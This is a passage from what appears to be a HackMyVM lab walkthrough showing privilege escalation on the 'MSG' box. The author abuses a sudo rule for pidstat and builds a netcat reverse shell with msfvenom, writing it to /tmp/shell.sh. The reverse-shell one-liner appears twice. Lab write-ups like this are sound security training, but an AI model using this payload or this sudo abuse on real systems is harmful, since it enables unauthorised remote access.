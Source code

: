 ### Privilege Escalation - Messagemaster

We can see two users in the `/home` directory:

```bash
www-data@MSG:/$ ls -lash /home
ls -lash /home
total 16K
4.0K drwxr-xr-x  4 root          root          4.0K Nov 21  2022 .
4.0K drwxr-xr-x 18 root          root          4.0K Nov 12  2022 ..
4.0K drwxr-xr-x  3 WM            WM            4.0K Nov 29  2022 WM
4.0K drwxr-xr-x  3 messagemaster messagemaster 4.0K Nov 22  2022 messagemaster
```

Using the `sudo -l` command, I can see that I can run the `pidstat` command as the `messagemaster` user:

```bash
www-data@MSG:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

GTFObins has a method on how to use this command: https://gtfobins.github.io/gtfobins/pidstat/:

![[Pasted image 20240810212924.png]]

I created another netcat reverse shell payload:

```bash
garffff@garffff:~/hackmyvm/wmessage$ sudo msfvenom -p cmd/unix/reverse_netcat lhost=192.168.0.51 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 98 bytes
mkfifo /tmp/wmbogd; nc 192.168.0.51 4444 0</tmp/wmbogd | /bin/sh >/tmp/wmbogd 2>&1; rm /tmp/wmbogd
```

I created a simple script in the `/tmp` directory:

```bash
www-data@MSG:/$ cd /tmp
cd /tmp
www-data@MSG:/tmp$ echo 'mkfifo /tmp/wmbogd; nc 192.168.0.51 4444 0</tmp/wmbogd | /bin/sh >/tmp/wmbogd 2>&1; rm /tmp/wmbogd' > shell.sh
```

And made it executable:

```bash
www-data@MSG:/tmp$ chmod +x ./shell.sh
```
